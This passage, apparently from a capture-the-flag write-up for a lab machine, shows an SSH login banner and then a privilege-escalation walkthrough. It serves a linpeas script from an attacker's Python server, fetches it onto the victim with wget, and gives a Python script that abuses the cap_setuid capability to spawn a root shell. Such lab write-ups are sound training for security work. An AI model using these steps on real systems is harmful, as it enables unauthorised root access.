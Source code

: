  * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Aug 15 10:25:16 UTC 2025

  System load:           0.12
  Usage of /:            36.7% of 8.73GB
  Memory usage:          37%
  Swap usage:            0%
  Processes:             247
  Users logged in:       1
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:fe94:f400

  => There are 4 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Aug 15 10:11:41 2025 from 10.10.14.211
nathan@cap:~$ 
</pre>

<h2>Step 5: Privilege escalation: Gaining root on the box</h2>
<p>Next, we need to do some privilege escalation to gain root and the root.txt flag. At first sight, i did not find anything that stands out that could be used to gain root. Therefore, I decided to run Linpeas on the machine to retrieve more information. Linpeas is a bash script which gathers information and identifies possible vectors for privilege escalation</p>
<p>In order to get Linpeas on the box, we need to set up a python http server on our attacking kali machine. To do this, navigate to the directory where Linpeas is located and type the following command:</p>
<pre>
python3 -m http.server 9000
</pre>
<p>Next, on the victim machine, navigate to the tmp directory (write privileges needed) and retrieve the file using wget:</p>
<pre>
wget IP_ATTACKING_MACHINE:9000/linpeas.sh
</pre>
<p> running linpeas, we get a lot of output. The most interesting seems that python3.8 has cap_setuid set. This capability allows a process to change its uid. Therefore, we can misuse this capability to gain a root shell by creating a very simple python script</p>
<pre>
import os
print("setting uid to 0")
os.setuid(0)
print("spawning a shell as root")
os.system('/bin/bash')
</pre>
<p>So what does this exactly do? Firstly, it sets the uid of the process (our python script) to 0 meaning that it is essentially being run as root (root always has uid 0). Now that our process runs as root, we spawn a bash shell. Because our process/ python script was ran as root, our bash shell is also running as root.</p>
<p>Congratulations, you have successfully rooted this box!</p>